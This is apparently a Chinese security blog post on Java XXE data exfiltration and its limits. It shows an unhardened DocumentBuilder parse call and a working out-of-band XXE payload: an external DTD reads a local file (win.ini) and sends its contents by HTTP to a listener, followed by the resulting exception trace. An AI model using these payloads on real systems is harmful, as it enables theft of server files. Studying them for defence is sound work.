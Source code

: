 ```yaml
---
title: JAVA XXE中两种数据传输形式及相关限制
date: 2020-05-07 10:40:08
tags: [sec,Java,XXE]
categories: Security
---
```


<script src="https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/pangu.js"></script>



示例代码：

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dbBuilder = dbFactory.newDocumentBuilder();
doc = dbBuilder.parse("xxe.xml");
```

### HTTP传输

xxe_http.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
        <!DOCTYPE ANY [
                <!ENTITY % dtd SYSTEM "http://127.0.0.1:8080/http.dtd">
                %dtd;
                %http;
                %send;
                ]>
<ANY>xxe</ANY>
```

http.dtd

```xml
<!ENTITY % file SYSTEM "file:///C:/Windows/win.ini">
<!ENTITY % http "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:8080/%file;'>">
```

在`dbBuilder.parse("xxe_http.xml")`时会产生异常

```
java.net.MalformedURLException: Illegal character in URL
	at sun.net.www.http.HttpClient.getURLFile(Unknown Source)
	at sun.net.www.protocol.http.HttpURLConnection.getRequestURI(Unknown Source)
	at sun.net.www.protocol.http.HttpURLConnection.writeRequests(Unknown Source)
	at sun.net.www.protocol.http.HttpURLConnection.getInputStream(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.setupCurrentEntity(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.startEntity(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.startEntity(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLDTDScannerImpl.startPE(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLDTDScannerImpl.skipSeparator(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLDTDScannerImpl.scanDecls(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLDTDScannerImpl.scanDTDInternalSubset(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLDocumentScannerImpl$DTDDriver.dispatch(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLDocumentScannerImpl$DTDDriver.next(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLDocumentScannerImpl$PrologDriver.next(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLDocumentScannerImpl.next(Unknown Source)
	at com.sun.org.apache.xerces.internal.impl.XMLDocumentFragmentScannerImpl.scanDocument(Unknown Source)
	at com.sun.org.apache.xerces.internal.parsers.XML11Configuration.parse(Unknown Source)
```